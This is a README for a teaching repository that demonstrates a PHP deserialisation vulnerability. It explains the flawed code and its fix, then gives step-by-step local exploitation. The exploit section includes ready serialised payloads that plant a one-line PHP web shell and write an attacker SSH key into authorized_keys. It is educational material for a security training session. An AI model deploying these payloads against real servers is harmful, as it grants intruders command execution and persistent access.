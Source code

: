 # Deserialisation Demo
I wrote this demo for our [Advanced Web Hacking](https://shefesh.com/assets/wiki/Advanced%20Web%20Hacking%20-%20PDF.pdf) session.

It is a demo of a very simple PHP Deserialisation Vulnerability. You can view more about Deserialisation in the slides linked above.

## Demo Code

The repository is available at: [https://github.com/Twigonometry/Deserialisation-Demo](https://github.com/Twigonometry/Deserialisation-Demo)

### The Vulnerable Code

#### unsafe.php

This represents a simple web application that constructs a `SignupForm` object and writes to a file when the `__destruct()` [magic method](https://www.php.net/manual/en/language.oop5.magic.php) is called. It accepts the GET parameter `username`, which it uses to write a username to a list of users who have signed up. It does this using the class' `parse_username()` and `__destruct()` functions.

#### The Vulnerability

The class variables `$outfile` and `$username_string` are normally set by the `parse_username()` method. However, when a specially crafted `SignupForm` object with these variables already set is passed to the `username` GET parameter, it is deserialised and the `__destruct` method is automatically called. This skips the `parse_username()` method and overrides the variables, meaning their attacker-controlled values are used in the `file_put_contents()` call.

The vulnerability only exists because untrusted data (i.e. user input) is passed directly to the `unserialize()` function. Remove this line, and the vulnerability is fixed. In fact, it's not even needed to make this program work - it is there just to teach about the mechanics of the vulnerability, but there may be situations where `unserialize()` may have a genuine use case (for example, if objects were serialized for more efficient storage). In this case, ensure that no untrusted data is allowed into the source of this deserialisation.

### The Exploit

#### generate-object.php

This is a recreation of the class being used on the web application, as could be created by an attacker with a 'whitebox' view of the web app's `unsafe.php` file.

It creates an instance of the class, with preset values that are used when the object is deserialised. The `$username_string` variable determines the contents that will be written to the file, and the `$outfile` variable determines the path (within the web server's directory). Change these to change the behaviour of your payload.

By default, the object looks like this:

`O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}`

The syntax is as follows:
- `O` tells us the type is an 'object'
- `10` tells us the character length of the class name `SignupForm`
- `2` tells us the number of variables within the object
- Within the curly brackets `{ }` are the object variables. They follow a similar structure, with each one having a type (`s` meaning 'string'), a variable name and length (`7:"outfile"`), and a value (a string (`s`), `10` characters long, called `"gotcha.txt"`). The variable names and values, and each pair thereof, are separated by semicolons `;`.

This will write the string "malicious stuff goes here" to the `gotcha.txt` file. Pretty harmless, but it should show you how the exploit works!

You can, of course, create these manually - but counting the length of a load of variable names is a pain and it's easy to make a syntax mistake!

#### Triggering the Attack

A serialised object must be generated (see `generate-object.php`) and then passed to the `username` GET parameter. To test this locally, run your webserver:

```
$ php -S localhost:5000
```

Change your payload by editing the `$username_string` and `$outfile` variables in `generate-object.php`, then make a request to get your object:

```
$ curl localhost:5000/generate-object.php
```

Then make a request to the page, passing your object to the `username` GET parameter:

```
http://localhost:5000/unsafe.php?username={SERIALISED OBJECT HERE}
```

*Note:* If you use curl, bash may throw a fit at your curly brackets. It's easier to visit the URL in your browser instead.

For example:

```
http://localhost:5000/unsafe.php?username=O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}
```

The `gotcha.txt` file should now appear in the webserver directory!

*Another Note:* Remember, anything you put in your payload happens on *your* machine - if someone monitors your installation directory for naughty `.txt` files and you write something you shouldn't have, don't come crying to us.

#### Exploit Payloads

Our example exploit writes something fairly harmless to `gotcha.txt`, demonstrating the vulnerability. However, there are lots of ways to exploit arbitrary file write, even within the constraints of the current directory. Here are a couple of examples:

**Write a Web Shell**

This won't necessarily allow you to escalate priveleges, but it lets you perform more actions on the box besides writing to files. You will have the permissions of the user who is running the web server (don't run your web servers as root!)

Here's the serialised object for a cheeky one-line PHP shell:

```
O:10:"SignupForm":2:{s:7:"outfile";s:7:"cmd.php";s:15:"username_string";s:29:"<?php system($_GET['cmd']);?>";}
```

If you're editing the `$username_string` variable here, you may need to escape the `$` character as follows: `public $username_string = "<?php system(\$_GET['cmd']);?>";`

**Write an SSH key**

The file location is limited by the `__DIR__` prefix. However, if for some ungodly reason this webserver was hosted in a user's home directory, a payload such as the following could write an SSH key to the `.ssh/authorized_keys` file. Like the above, this doesn't escalate your priveleges but grants you a more interactive shell.

Here's the object:

```
O:10:"SignupForm":2:{s:7:"outfile";s:20:".ssh/authorized_keys";s:15:"username_string";s:20:"YOUR ID_RSA.pub HERE";}
```

I shouldn't have to say this, but "YOUR ID_RSA.pub HERE" is not a valid SSH key. If you want this to work, make sure to replace it (ideally in the `generate-object.php` file itself, so it calculates the length for you)

## Acknowledgements

Thanks to a recent Hack the Box for the inspiration... I won't say which, as it's live! But now you know how this works, go out and find it and root it...